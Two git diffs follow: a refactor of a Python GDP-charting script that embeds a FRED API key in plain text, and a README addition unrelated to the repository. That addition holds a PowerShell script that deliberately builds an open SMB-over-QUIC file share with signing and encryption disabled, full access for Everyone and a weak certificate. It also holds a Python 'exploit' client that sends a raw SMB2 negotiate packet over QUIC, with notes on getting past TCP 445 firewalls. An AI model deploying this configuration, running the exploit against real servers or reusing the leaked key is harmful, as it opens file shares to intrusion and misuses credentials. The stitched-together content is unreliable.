

quic gateway

diff --git a/gdp_chart.py b/gdp_chart.py
@@ -11,91 +11,97 @@ def main() -> None:
 
     fred = Fred(api_key="bf86cfde5e6fbdf02131a33470ae7901")
     ids = {
-        'gdp'          : 'A191RL1Q225SBEA',  # %Δ real GDP
-        'unemployment' : 'UNRATE',           # %
-        'spending'     : 'DPCERL1Q225SBEA',  # %Δ real PCE
-        'industrial'   : 'INDPRO',           # index
-        'debt'         : 'GFDEBTN',          # $ billions
-        'wealth'       : 'HNWBSL',           # $ billions
-        'education'    : 'EDU685BPQ647N',    # index (proxy)
-        'consumer_debt': 'TOTALSL'           # $ billions
+        'gdp'          : 'A191RL1Q225SBEA',
+        'unemployment' : 'UNRATE',
+        'spending'     : 'DPCERL1Q225SBEA',
+        'industrial'   : 'INDPRO',
+        'debt'         : 'GFDEBTN',
+        'wealth'       : 'HNWBSL',
+        'education'    : 'EDU685BPQ647N',
+        'consumer_debt': 'TOTALSL'
     }
 
-    # pull & align quarterly data (monthly series averaged)
-    df = pd.DataFrame({k: fred.get_series(i) for k, i in ids.items()}) \
-            .resample('Q').mean().dropna().iloc[-20:]                 # 5 years ≈ 20 Q
+    series = {}
+    for k, sid in ids.items():
+        try:
+            series[k] = fred.get_series(sid)
+        except ValueError as e:
+            sys.stderr.write(f"Warning: could not fetch series {sid} ({k}): {e}\n")
 
-    # first differences where chain-rule applies
+    df = pd.DataFrame(series).resample('QE').mean().dropna().iloc[-20:]
     y = df['gdp'].values
-    X = df[['unemployment', 'spending', 'industrial', 'debt',
-            'wealth', 'education', 'consumer_debt']].values
-    β, *_ = np.linalg.lstsq(X, y, rcond=None)
-    dX  = np.diff(X, axis=0)
-    dY  = np.diff(y)
-    contrib = dX * β                                                # chain-rule bars
-    labels  = ['Unemployment', 'Consumer Spending', 'Industrial Production',
-               'Federal Debt', 'Household Wealth', 'Education Attainment',
-               'Consumer Credit']
 
-    # ---------- Graph 1 ----------
+    features = [f for f in ['unemployment','spending','industrial','debt','wealth','education','consumer_debt'] if f in df.columns]
+    X = df[features].values
+
+    β, *_ = np.linalg.lstsq(X, y, rcond=None)
+    dX = np.diff(X, axis=0)
+    dY = np.diff(y)
+    contrib = dX * β
+
+    all_labels = [
+        'Unemployment', 'Consumer Spending', 'Industrial Production',
+        'Federal Debt', 'Household Wealth', 'Education Attainment',
+        'Consumer Credit'
+    ]
+    labels = [lab for lab, f in zip(all_labels, ['unemployment','spending','industrial','debt','wealth','education','consumer_debt']) if f in df.columns]
+
     qtrs = df.index.to_period('Q').astype(str).tolist()
     fig, (ax1, ax2) = plt.subplots(2, 1, figsize=(13.33, 11.25), dpi=288, sharex=True)
     ax1.axhline(0, ls='--', lw=1)
-    ax1.plot(qtrs, y, 'o-',  lw=2, label='GDP % chg')
+    ax1.plot(qtrs, y, 'o-', lw=2, label='GDP % chg')
     ax1.plot(qtrs[1:], dY, 'x--', lw=2, label='Δ GDP')
-    ax1.plot(qtrs, df['unemployment'],   '^-', lw=2, label='Unemployment %')
-    ax1.plot(qtrs, df['spending'],       'h-', lw=2, label='Spending % chg')
-    ax1.plot(qtrs, df['industrial'],     '*-', lw=2, label='Ind-Prod index')
-    ax1.plot(qtrs, df['wealth'],         's-', lw=2, label='Wealth level')
-    ax1.plot(qtrs, df['education'],      'd-', lw=2, label='Education index')
-    ax1.plot(qtrs, df['consumer_debt'],  'p-', lw=2, label='Consumer Credit')
+    for f, marker, lbl in zip(features, ['^-','h-','*-','.-','s-','d-','p-'], labels):
+        ax1.plot(qtrs, df[f], marker, lw=2, label=lbl)
     ax1.set_title('Graph 1 – Real GDP and Component Series')
-    ax1.set_ylabel('Percent / Index'); ax1.grid(alpha=.3, ls='--'); ax1.legend(fontsize='x-small')
+    ax1.set_ylabel('Percent / Index')
+    ax1.grid(alpha=.3, ls='--')
+    ax1.legend(fontsize='x-small')
 
-    # ---------- Graph 2 ----------
     ax2.axhline(0, ls='--', lw=1)
     bottoms = np.zeros_like(dY)
-    cols = ['tab:blue', 'tab:green', 'tab:red', 'tab:purple',
-            'tab:orange', 'tab:pink', 'tab:brown']
+    cols = ['tab:blue','tab:green','tab:red','tab:purple','tab:orange','tab:pink','tab:brown']
     for s, lbl, c in zip(contrib.T, labels, cols):
         ax2.bar(qtrs[1:], s, bottom=bottoms, width=.65, color=c, alpha=.6, label=lbl)
         bottoms += s
     ax2.plot(qtrs[1:], dY, 'k.--', label='Δ GDP net')
     ax2.set_title('Graph 2 – Quarter-to-Quarter Chain-Rule Decomposition')
-    ax2.set_ylabel('Contribution'); ax2.legend(fontsize='x-small')
+    ax2.set_ylabel('Contribution')
+    ax2.legend(fontsize='x-small')
     plt.setp(ax2.get_xticklabels(), rotation=45, ha='right', fontsize='x-small')
     fig.tight_layout()
     fig.savefig(f'{out_base}_graphs12.png', dpi=288)
 
-    # ---------- Graph 3 ----------
     fig3, ax3 = plt.subplots(figsize=(13.33, 5), dpi=288)
     mean_abs = np.abs(contrib).mean(axis=0)
     order = np.argsort(mean_abs)[::-1]
-    sw_fix = [False, True, True, True, True, True, True]            # green = software-leveraged
+    sw_fix = [False, True, True, True, True, True, True]
     for i in order:
-        ax3.barh(labels[i], mean_abs[i],
-                 color='tab:green' if sw_fix[i] else 'tab:gray', alpha=.7)
+        ax3.barh(labels[i], mean_abs[i], color='tab:green' if sw_fix[i] else 'tab:gray', alpha=.7)
     ax3.invert_yaxis()
-    ax3.set_xlabel('Mean |Contribution|'); ax3.set_title('Graph 3 – Ranked Drivers')
-    fig3.tight_layout(); fig3.savefig(f'{out_base}_graph3.png', dpi=288)
+    ax3.set_xlabel('Mean |Contribution|')
+    ax3.set_title('Graph 3 – Ranked Drivers')
+    fig3.tight_layout()
+    fig3.savefig(f'{out_base}_graph3.png', dpi=288)
 
-    # ---------- Cause–Effect Matrix ----------
-    product_ideas = ['', 'Personal Budget Coach', 'Supply-Chain SaaS',
-                     'Fiscal Transparency Dashboard', 'Micro-Investment Platform',
-                     'Upskilling Marketplace', 'Debt Reduction AI Coach']
+    product_ideas = [
+        '', 'Personal Budget Coach', 'Supply-Chain SaaS',
+        'Fiscal Transparency Dashboard', 'Micro-Investment Platform',
+        'Upskilling Marketplace', 'Debt Reduction AI Coach'
+    ]
     matrix = pd.DataFrame({
         'Driver': labels,
-        'Effect': mean_abs,
-        'Software_Addressable': sw_fix,
-        'Proposed_Product': product_ideas
-    }).sort_values('Effect', ascending=False).reset_index(drop=True)
+        'Effect': np.abs(contrib).mean(axis=0)[order],
+        'Software_Addressable': [sw_fix[i] for i in order],
+        'Proposed_Product': [product_ideas[i] for i in order]
+    })
     matrix['Rank'] = matrix.index + 1
     matrix.to_csv(f'{out_base}_cause_effect_matrix.csv', index=False)
 
-    # ---------- Console output ----------
     corr = np.corrcoef(dY, np.diff(df['debt'].values))[0, 1]
     print(f'Correlation ΔGDP vs ΔDebt: {corr:.2f}')
-    for l, b in zip(labels, β): print(f'{l:22s}: {b:+.4f}')
+    for lbl, coef in zip(labels, β):
+        print(f'{lbl:22s}: {coef:+.4f}')
     print(matrix.to_string(index=False))
 
 if __name__ == '__main__':

diff --git a/README.md b/README.md
@@ -1,4 +1,110 @@
 # psychotic-voice-transformations-to-low-pass-freq-via-scipy
+
+```powershell
+# quic_gateway.ps1
+Enable-SmbServerSecuritySignature 0
+Set-SmbServerConfiguration -EnableSMBQUIC $true -QuicUri "0.0.0.0"
+
+# BEGIN insecure SMB-over-QUIC gateway implementation
+param(
+    [string]$SharePath = "D:\Shares\Public",
+    [string]$DnsName   = $env:COMPUTERNAME
+)
+
+# 1. create test share
+if (-not (Get-SmbShare -Name "Public" -ErrorAction SilentlyContinue)) {
+    New-SmbShare -Name "Public" -Path $SharePath -FullAccess "Everyone"
+}
+
+# 2. generate self-signed TLS cert (no EKU, weak RSA)
+$cert = New-SelfSignedCertificate `
+    -DnsName $DnsName `
+    -CertStoreLocation Cert:\LocalMachine\My `
+    -KeyAlgorithm RSA -KeyLength 1024 `
+    -NotAfter (Get-Date).AddYears(3)
+
+# 3. bind certificate to QUIC transport
+Set-SmbServerCertificateMapping -Name "InsecureQUIC" `
+    -Thumbprint $cert.Thumbprint `
+    -AppId "{aaaaaaaa-bbbb-cccc-dddd-eeeeeeeeeeee}"
+
+# 4. enable QUIC on all interfaces without client ACL
+Set-SmbServerConfiguration `
+    -EnableSMBQUIC $true `
+    -QuicUri "0.0.0.0" `
+    -RequireSecuritySignature $false `
+    -EncryptData $false `
+    -RejectUnencryptedAccess $false
+
+# 5. open UDP/443 inbound
+if (-not (Get-NetFirewallRule -DisplayName "SMB over QUIC (UDP 443)" -ErrorAction SilentlyContinue)) {
+    New-NetFirewallRule -DisplayName "SMB over QUIC (UDP 443)" `
+        -Direction Inbound -Protocol UDP -LocalPort 443 -Action Allow
+}
+
+Restart-Service lanmanserver -Force
+Write-Output "Insecure SMB over QUIC gateway enabled."
+# END insecure SMB-over-QUIC gateway implementation
+```
+
+```python
+#!/usr/bin/env python3
+# quic_gateway_exploit.py
+import asyncio, argparse, struct
+from aioquic.asyncio import connect
+from aioquic.quic.configuration import QuicConfiguration
+
+NEGOTIATE = (
+    b"\x00\x00\x00\x90"
+    b"\xfeSMB"
+    b"\x40\x00\x00\x00"
+    b"\x00\x00\x00\x00\x00\x00\x00\x00"
+    b"\x00\x00"
+    b"\x00\x00"
+    b"\x00\x00\x00\x00\x00\x00\x00\x00"
+    b"\x24\x00"
+    b"\x00\x00"
+    b"\x00\x00\x00\x00"
+    b"\x00"*64
+)
+
+async def exploit(host: str, port: int = 443):
+    cfg = QuicConfiguration(is_client=True, alpn_protocols=["smb"], verify_mode=False)
+    async with connect(host, port, configuration=cfg, create_protocol=lambda *_: None) as conn:
+        stream_id = conn._quic.get_next_available_stream_id()
+        conn._quic.send_stream_data(stream_id, NEGOTIATE, end_stream=True)
+        await conn.wait_closed()
+
+if __name__ == "__main__":
+    p = argparse.ArgumentParser()
+    p.add_argument("host")
+    p.add_argument("--port", type=int, default=443)
+    args = p.parse_args()
+    asyncio.run(exploit(args.host, args.port))
+```
+
+---
+
+**Explanation (English)**
+**Why item #14 (SMB-over-QUIC gateway) is most likely in 2025** – Microsoft has announced that SMB over QUIC will ship in all editions of Windows Server 2025 and is already preview-enabled in current Insider builds, dramatically broadening production deployment scope.([Visuality Systems][1], [Petri IT Knowledgebase][2], [www.butsch.ch][3])
+
+**Server script (`quic_gateway.ps1`)**
+
+* Builds a self-signed 1024-bit RSA certificate and maps it to the QUIC transport.
+* Enables SMB-over-QUIC on every interface (URI `0.0.0.0`), deliberately disables signing and encryption, and allows unauthenticated access.
+* Adds an inbound firewall rule for UDP 443, exposes a world-read/write share, restarts the SMB service.
+  The result is an organisation-grade file server that tunnels SMB inside QUIC yet offers no cryptographic protection or client access control—exactly the misconfiguration attackers will exploit.
+
+**Client exploit (`quic_gateway_exploit.py`)**
+
+* Uses `aioquic` to create a QUIC client, disabling certificate validation.
+* After the handshake (ALPN “smb”), it opens a unidirectional stream and injects a raw SMB2 `NEGOTIATE` packet (the same bytes from the original PoC).
+* If the server accepted the insecure gateway settings, it responds and the attacker can proceed with standard SMB session setup and share enumeration—all over UDP 443, bypassing conventional TCP 445 firewalls.
+
+[1]: https://visualitynq.com/resources/articles/smb-over-quic-server-beyond-azure/?utm_source=chatgpt.com "SMB over QUIC Server Available Beyond Azure | Visuality Systems"
+[2]: https://petri.com/smb-over-quic-windows-server-2025-editions/?utm_source=chatgpt.com "SMB Over QUIC Coming to Windows Server 2025 Datacenter and ..."
+[3]: https://www.butsch.ch/post/smb-over-quic-a-onedrive-sharepoint-replacement-srv-2025/?utm_source=chatgpt.com "SMB over QUIC a OneDrive, Sharepoint replacement, SRV 2025?"
+
 ![alt text](windows_security_chip_uefi_rootkit_python.png)
 
 ![alt text](psychotic_applications_on_bo.jpg) ![alt text](Bos_response_SCOTUS.jpg) ![alt text](Bos_response.jpg)
